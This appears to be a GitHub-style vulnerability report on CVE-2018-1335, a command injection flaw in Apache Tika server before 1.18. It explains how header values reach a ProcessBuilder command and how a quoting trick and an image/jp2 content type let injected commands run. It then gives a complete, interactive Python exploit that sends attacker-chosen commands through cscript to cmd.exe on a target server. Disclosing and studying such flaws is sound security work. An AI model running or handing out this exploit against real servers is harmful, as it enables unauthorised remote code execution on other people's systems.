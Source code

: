 <div align="center"><h1>CVE-2018-1335 REPORT</h1></div>

## About the vulnerability

This vulnerability leads to command injection vulnerability in Apache Tika server uses Cscript.exe to execute Jscript or VBS code and run arbitary commands.

**On versions:** Apache Tika server <1.18

**Pre-requisites:** No pre-requisites. Run the Tika server in its default configuration.

## Explanation
The entry point for this vulnerability is HTTP request header. To exploit this vulnerability, we need to pass the arguments in through HTTP request to `processHeaderConfig` function. This function sets the properties of the `TesseractORConfig` object.

The `doOCR` function in `TesseractORConfig.java` passes the config properties from the `TesseractORConfig` object, directly into an array of strings and it is further used to construct command for `ProcessBuilder`.

When we pass our command in the header as `X-Tika-OCRTesseractPath: <some command>`, the command is inserted into the cmd string but is unable to execute becuase of the prepending of some uncontrolable strings. To bypass this, we have to wrap our command in double quotes. This would result in windows ignoring whatever is appended to it after the qoutes. This would result in execution of our injected command.

`OCR` is used for pulling text and content out of the images and that's why we used image as our content-type so that we can reach the `doOCR` function.
The only way through which we can make Tika accept our command without embedding them into an image and then uploading that image is by setting the `Content-type` to `image/jp2`. This particular thing forces Tika to not check magic bytes of the image and allows the image to process through OCR. This resulted in the successful upload of our "image" file containing VBScript. We are able to successfully exploit the vulnerability.

## Exploit
```
#!/usr/bin/python

import requests

host = input("=> Target website/IP address = ")
port = input("=> Port number = ")
command = input("=> Command = ")

url = "http://"+host+':'+port+'/meta'

header = {"X-Tika-OCRTesseractPath": "\"cscript\"", "X-Tika-OCRLanguage": "//E:Jscript", "Content-type": "image/jp2"}

script = '''WScript.CreateObject("WScript.Shell").Run("cmd.exe /k %s")'''%command

requests.put(url, headers=header, data = script)
```
[Exploit code link](https://github.com/yash-bansod/Techmeet21-SAPTANG/blob/chall4/chall4/exploit.py)

Exploit was tested on Apache Tika 1.17 with Java version 1.7.0_80

## Proof Of Concept (PoC)

[PoC video link](https://drive.google.com/file/d/1eGn6Z_cpJtpvbYzPEvJQa-7eHn-lD6_C/view?usp=sharing)